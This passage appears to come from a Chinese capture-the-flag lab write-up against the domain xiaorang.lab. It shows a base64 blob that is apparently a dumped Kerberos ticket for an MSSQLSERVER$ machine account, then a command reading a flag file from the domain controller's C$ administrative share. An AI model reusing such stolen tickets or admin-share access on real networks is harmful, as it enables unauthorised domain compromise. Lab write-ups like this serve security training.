cKLtCrSQor2bLQs7nWVuVJRsCx5m2UKalffwWxowhSoPEnoNyI+GM7t59LI7qud+Q8bfb9VH+/2QpHzuY2SOlojbi4jl8gwoxvdMTUAZuJZBWsRZHwELmIMSJ6rcYbri5cdYHGpYVR6gA0UyhDtZrL5AUSHIg8xEwBoHxaI70OTi1RZl/q+F1rMdW+7tbrd+JGHSlx917zEbepDn95m0OyqFNhwOUU59HU57VuAN7HCAlG1RqMHaXC2KihJNjlu2TU3zjhi08lAE3k3J+91FXAWE/AkCaMj1R2yH5OmhQQWLOTm8RMsphOSqupoiwTs4Gmmg6WPZHMBabGwUCdzsFkLeHHCrONIosnn7ifo8u/o+cSKCo1R+zKK4eD1dvudnsfdShHzNEFgkhVahkKwRzZMnzQ77pL5hHOSUg/5GEv10eXvi+ktWq9AhYIBJ/6FP1P9GarT+6sM3X/Vpdy1GeRVBrMYRVJ20iZ5/RqkLb2oEvBaa74gPsD9DntAff3R/MgAt7130GeixmR5giywd+SrGjsweO+uR8iiRR9cxe6/TirkN4BdQMder7dYavEc8q0X7drdebDB4XgG9sY9+YkSsudo2pZHnHKEykga6iqoAS66BoxObyGtfn2QamjUARvD8n4bJGUTC8ed1yclN7P8M9Zgth77CpuVVYpnuR7+cNoPBSwALDQ55PMLa9gQoC83vzKbVvSr5dE/fqjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBAIogDroed1KhPlRRifj/AboQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDI0MDIxMzE2MjQ1MlqmERgPMjAyNDAyMTQwMjI0NTJapxEYDzIwMjQwMjIwMTYyNDUyWqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```

读取 flag

```plain
type \\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214004332-0632ded0-ca8f-1.png)
